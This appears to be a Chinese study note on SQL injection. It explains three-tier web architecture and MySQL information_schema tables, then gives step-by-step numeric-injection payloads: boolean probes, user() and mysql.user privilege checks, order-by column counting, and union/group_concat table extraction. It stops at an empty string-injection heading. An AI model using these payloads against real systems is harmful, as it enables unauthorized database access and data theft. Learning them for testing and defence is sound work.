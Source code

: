 ```yaml
---
layout: post
title: 这是一篇博客文章模板
date: 2015-3-02
categories: blog
tags: [标签一,标签二]
description: 文章金句。
---
```

# SQL


## `0`. 基础理论

## Web 程序三层架构

**三层架构**(`3-tier architecture`) 通常意义上就是将整个业务应用划分为：

- 界面层（User Interface layer）
- 业务逻辑层（Business Logic Layer）
- 数据访问层（Data access layer）

区分层次的目的即为了“高内聚低耦合”的思想。在软件体系架构设计中，分层式结构是最常见，也是最重要的一种结构被应用于众多类型的软件开发。
由数据库驱动的Web应用程序依从三层架构的思想也分为了三层：

- 表示层。
- 业务逻辑层（又称领域层）
- 数据访问层（又称存储层）

拓扑结构如下图所示：

> 

在上图中，用户访问实验楼主页进行了如下过程：

在 Web 浏览器中输入 `www.shiyanlou.com` 连接到实验楼服务器。

- 业务逻辑层的 Web 服务器从本地存储中加载 `index.php` 脚本并解析。
- 脚本连接位于数据访问层的 `DBMS`（数据库管理系统），并执行 `Sql` 语句。
- 数据访问层的数据库管理系统返回 `Sql` 语句执行结果给 Web 服务器。
- 业务逻辑层的 Web 服务器将 Web 页面封装成 HTML 格式发送给表示层的 Web 浏览器。
- 表示层的 Web 浏览器解析 HTML 文件，将内容展示给用户。

在三层架构中，所有通信都必须要经过中间层，简单地说，三层架构是一种**线性关系**。

## `1`. SQL注入

> 通过把SQL命令插入到Web表单递交或输入域名或页面请求的查询字符串，最终欺骗服务器执行恶意的SQL命令。

[Sql注入基础原理介绍](https://zhuanlan.zhihu.com/p/35723803)

### 1.1 Sql注入简介

Sql 注入攻击是通过将恶意的 Sql 查询或添加语句插入到应用的输入参数中，再在后台 Sql 服务器上解析执行进行的攻击，它目前黑客对数据库进行攻击的最常用手段之一。

### 1.2 Sql注入的要求

1. 用户能和数据库进行交互（要能输入），且输入是可控的
2. 我们的输入，最终要能在服务器中执行（拼接->编译->执行，缺一不可）

#### # 特殊的数据字典表

下面对一些重要的数据字典表做一些说明：
+ `SCHEMATA`表：提供了关于数据库的信息。
+ `TABLES`表：给出了关于数据库中的表的信息。
+ `COLUMNS`表：给出了表中的列信息。
+ `STATISTICS`表：给出了关于表索引的信息。
+ `USER_PRIVILEGES`表：给出了关于全程权限的信息。该信息源自mysql.user授权表。
+ `SCHEMA_PRIVILEGES`表：给出了关于方案（数据库）权限的信息。该信息来自mysql.db授权表。
+ `TABLE_PRIVILEGES`表：给出了关于表权限的信息。该信息源自mysql.tables_priv授权表。
+ `COLUMN_PRIVILEGES`表：给出了关于列权限的信息。该信息源自mysql.columns_priv授权表。
+ `CHARACTER_SETS`表：提供了关于可用字符集的信息。
+ `COLLATIONS`表：提供了关于各字符集的对照信息。
+ `COLLATION_CHARACTER_SET_APPLICABILITY`表：指明了可用于校对的字符集。
+ `TABLE_CONSTRAINTS`表：描述了存在约束的表。
+ `KEY_COLUMN_USAGE`表：描述了具有约束的键列。
+ `ROUTINES`表：提供了关于存储子程序（存储程序和函数）的信息。此时，ROUTINES表不包含自定义函数（UDF）。
+ `VIEWS`表：给出了关于数据库中的视图的信息。
+ `TRIGGERS`表：提供了关于触发程序的信息。

## `2`. SQL注入分类

### 2.1 数字型注入（Post）

#### 2.1.1 简介

> s

#### 2.1.2 注入步骤

+ **#1** 判断注入类型，找到注入点

  ```sql
  xx' 主动闭合'    返回错误
  xx and 1=1 	    返回正确
  xx and 1=2      返回错误
  ```
  满足以上三点则可以下判断，存在数字型注入

  ```sql
  xx id=2-1	2-1=1
  xx id=1%2b1	1+1=2,+号要进行URL编码
  ```

+ **#2** 数据库权限判断

  ```SQL
  and ord(mid(user(),1,1))=114
  ```

  + Ord函数是返回第一个字符的ascii码值。
  
  + Mid函数是用于得到字符串的一部分。这个函数有三个参数，返回值为该部分的ASCII码值。
  
    1. 第一个是`需要得到的字符串`，
    2. 第二位是`从这个函数的第几位开始截取`，
    3. 第三个是`截取的长度`。
  
    那么也就是说，得到字符串user()里面的第一个ascii值。加上后面的那句，=114
  
    总的推出该句的意思就是：倘若得到的第一个字符串的ASCIII码值等于114的话，就返回正确的页面。114的ASCII值是r

  ```
  或 and (select count(*) from mysql.user)>0
  ```

  解释:
  and (select count(*) from mysql.user)>0   /* 如果结果返回正常,说明具有读写权限。
  and (select count(*) from mysql.user)>0   /* 返回错误，应该是管理员给数据库帐户降权了。

+ **#3** 猜出字段数

  ```sql
  xx order by  n(数字)
  ```

+ **#4** 猜出字段位

  ```sql
  and 1=2 union selct 1,2,3
  ```

+ **#5** 猜数据库名

  ```sql
  and 1=2 union select 1,database(),3
  ```

+ **#6** 联合查询 （group_concat()）  点代表下一级

  ```sql
  union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='pentest'   
  或 
  union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()
  ```
  
  > 在MySQL中，==数据库名==存放在`information_schema`数据库下`schemata`表`schema_name`字段中
  >
  > 在MySQL中，==表名==存放在`information_schema`数据库下`tables`表`table_name`字段中
  
  > GROUP_CONCAT(col) 返回由属于一组的列值连接组合而成的结果
  >
  > 也就是将多个返回值拼贴成一个字符串

#### 2.1.3 注意细节

注入过程中的"`+`"号要进行url编码，因为"`+`"号在SQL中有特殊含义(外连接)，"`-`"就不用编码了

### 2.2 字符型注入（Get）













